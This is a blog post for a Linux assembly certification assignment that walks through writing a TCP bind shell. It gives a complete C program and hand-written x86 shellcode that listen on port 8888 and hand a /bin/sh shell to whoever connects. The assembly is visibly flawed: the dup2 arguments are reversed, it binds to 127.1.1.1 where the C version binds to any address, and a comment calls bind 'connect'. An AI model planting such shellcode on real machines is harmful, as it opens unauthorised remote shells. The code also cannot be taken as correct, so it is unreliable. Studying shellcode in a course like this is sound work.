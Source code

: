 # Assignment #1: Bind Shell TCP
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228


Since I first accomplished Assignment 2 (Reverse Shell TCP) instead of Assignment 1, all the networking and programming related topics had already been reviewd.

Indeed, both assignments are very simmilar. Most of the differences are concerned to the envolved functions. While in a Reverse Shell we basically built a TCP client socket, in a Bind Shell we will work on something like a server.

## listen()
After creating the socket and binding it to a port, we will now have it listening instead of actively connecting.

	int listen(int socket, int queueLimit)

Since we are expecting a single connection, our queueLimit is 0.

## accept()
Once the socket is listening, we now wait for new connections. It is common to have this function inside an infinite loop, so the socket can handle multiple connections. 
	
	int accept(int socket, struct sockaddr *clientAddress, unsigned int *addressLength)

Although this is not the case here, it should be noticed the function will return a new file descriptor to our single connection. Just like when we created the socket, we will have to save it in a stable register so we can use it later in our dup2 function.

## dup2() and execve()
When someone connects to this socket and it is accepted we are able to redirect INPUT, OUTPUT and ERROR to the new client socket and finally pop a shell with execve. This is very simmilar to what we did in Assignment 2, so I will skip it.

## Working TCP server
In order to create the simplest client possible, we cut all the error corrections. This is for **educational purposes only** and should NEVER be used in production.

```
 #include<stdio.h> //printf
 #include<string.h>    //strlen
 #include<sys/socket.h>    //socket
 #include<arpa/inet.h> //inet_addr
 
 int main(int argc , char *argv[]){
 
     int sock;
     int clntSock;
     struct sockaddr_in server;
     struct sockaddr_in client;
 
     server.sin_addr.s_addr = INADDR_ANY;
     server.sin_family = AF_INET;
     server.sin_port = htons( 8888 );
 
     sock = socket(AF_INET , SOCK_STREAM , 0);
     //int bind(int socket, struct sockaddr *localAddress, unsigned int addressLength) 
     bind(sock, (struct sockaddr *)&server, sizeof(server));
 
     //int listen(int socket, int queueLimit)
     listen(sock, 0);
 
     //int accept(int socket, struct sockaddr *clientAddress, unsigned int *addressLength)
     clntSock = accept(sock, NULL, NULL);
 
     dup2(clntSock, 0);
     dup2(clntSock, 1);
     dup2(clntSock, 2);
 
     execve("/bin/sh", 0, 0);
 
     return 0;
 }
```

## Handcrafted shellcode

Once again, my idea here is not to generate a small shellcode, but a comprehensible one. It was pretty simple to modify the reverse shell code to this one, given the only significant changes are those related to the new syscalls.

```
global _start

section .text
_start:

;###socket###
;socket(AF_INET , SOCK_STREAM , 0);

xor eax, eax
mov al, 0x66 ;socketcall
xor ebx, ebx

;push the list of arguments onto the stack
push ebx ;PROT
push 0x01 ;SOCK_STREAM
push 0x02 ;AF_INET

mov bl, 0x01 ;socket function

mov ecx, esp ;pass the pointer to the list of arguments to ecx

int 0x80
mov edi, eax ; save socket fd into edi (eax may change!)

;###bind###

;struct sockaddr_in {
;	unsigned short  sin_family;     /*  Internet protocol (AF_INET) */
;	unsigned short  sin_port;       /* Address port (16 bits) */
;	struct in_addr sin_addr;        /*  Internet address (32 bits) */
;	char sin_zero[8];               /* Not used */
;};
;
;struct in_addr {
;	unsigned long s_addr;  // load with inet_aton()
;};
push 0x0101017f 
push word 0xb822 ; sin_port=8888 
push word 0x02

mov esi, esp ;save the pointer to the struct in esi

;bind syscall
;int connect(int socket, struct sockaddr *foreignAddress, unsigned int addressLength)
xor eax, eax
mov al, 0x66 ;socketcall
xor ebx, ebx
mov bl, 0x02 ;bind

push 0x10 ;addressLength=16bytes. short+short+8+long=2+2+8+4=16
push esi ;address of the struct 
push edi ;socket fd

mov ecx, esp ;pass the pointer to the list of arguments to ecx
int 0x80

;###listen###
xor eax, eax
push eax
mov al, 0x66 ;socketcall
xor ebx, ebx
mov bl, 0x04 ;listen function
push edi

mov ecx, esp
int 0x80

;###accept###
xor eax, eax
xor ebx, ebx
xor ecx, ecx
push eax ;NULL
push eax ;NULL
push edi

mov al, 0x66 ;socketcall
mov bl, 0x05 ;accept function

mov ecx, esp
int 0x80

mov esi, eax ;save the client socket fd into esi

;###copy file descriptors###
;dup2(clntSock, 0);
;dup2(clntSock, 1);
;dup2(clntSock, 2);

mov al, 0x3f ;dup2
mov ecx, esi
xor ebx, ebx

int 0x80

mov al, 0x3f ;dup2
mov bl, 0x1
mov ecx, esi

int 0x80

mov al, 0x3f ;dup2
mov bl, 0x2
mov ecx, esi

int 0x80

;###execve###
xor eax, eax
mov al, 0x0b ;sys_execve
xor ebx, ebx 
push ebx ;terminate string with \0
push 0x68732f2f ;String "hs//"
push 0x6e69622f;String "nib/"
mov ebx, esp

xor ecx, ecx
xor edx, edx

int 0x80
```
